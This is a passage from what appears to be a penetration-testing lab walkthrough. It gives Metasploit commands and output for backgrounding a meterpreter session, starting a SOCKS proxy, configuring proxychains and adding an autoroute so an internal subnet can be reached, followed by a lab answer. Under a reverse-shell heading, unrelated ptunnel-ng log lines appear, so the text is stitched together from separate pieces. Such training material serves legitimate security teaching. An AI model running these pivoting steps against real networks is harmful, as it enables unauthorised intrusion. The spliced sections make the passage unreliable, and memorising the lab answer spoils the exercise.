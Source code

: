 ```
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

Students need to make sure that the following `Socks4` entry is present in the `/etc/proxychains.conf` file:

Code: shell

```shell
Socks4 127.0.0.1 9050
```

Then, from Pwnbox/`PMVPN`, students need to attach back to their meterpreter session and run `autoroute` on the `172.16.5.0/23` subnet:

Code: shell

```shell
sessions -i 1
run autoroute -s 172.16.5.0/23
```

```
msf6 post(multi/manage/autoroute) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.106.254
[*] Use the -p option to list all active routes
```

From the output of `autoroute`, students will know that `172.16.5.0/255.255.254.0` allows `172.16.5.19` to be reachable from the attack host.

Answer: `172.16.5.0/255.255.254.0`

# Socat Redirection with a Reverse Shell


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.